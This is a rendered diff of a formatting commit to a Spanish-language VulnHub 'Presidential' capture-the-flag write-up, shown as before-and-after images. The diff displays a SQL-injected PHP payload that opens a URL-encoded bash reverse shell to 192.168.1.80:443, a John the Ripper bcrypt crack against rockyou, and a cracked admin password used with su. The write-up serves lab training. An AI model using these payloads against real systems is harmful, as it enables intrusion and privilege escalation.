

Before and after one commit to D0ct0rBot/writeups, a Markdown page: vulnhub/presidential/README.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
update presidential

````diff
--- a/vulnhub/presidential/README.md
+++ b/vulnhub/presidential/README.md
@@ -710,7 +709,10 @@ Eso significa que si en vez de esa instrucción de php, inyectamos otro payload,
 
 Cerramos y abrimos la sesión para renovar la cookie, y añadimos la siguiente query:
 
+
+```sql
 SELECT '<?PHP system(urldecode("bash%20-c%20%22/bin/bash%20-i%20%26%3e%20/dev/tcp/192.168.1.80/443%200%3e%261%22")); ?>'
+```
 
 Como la linea de la reverse shell está completamente urlencodeada, no será entendida a menos que la decodifiquemos con urldecode.
 
@@ -797,7 +799,9 @@ Si recordamos, en la base de datos habíamos conseguido acceder a los datos de u
 
 Por fuerza bruta podemos averiguar si ese hash es algún password de los que figuran en Rockyou.
 
+```bash
 > john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
+```
 
 ![johntheripper.png](johntheripper.png)
 
@@ -805,8 +809,10 @@ Por fuerza bruta podemos averiguar si ese hash es algún password de los que fig
 
 Y vemos que hay una coincidencia Stella. Probamos a cambiar de usuario a admin.
 
+```bash
 > su admin
 password: Stella
+```
 
 Y bingo! escalamos privilegios a admin.
 
````
Also changed, not shown: other parts of vulnhub/presidential/README.md (+0 -2 lines).
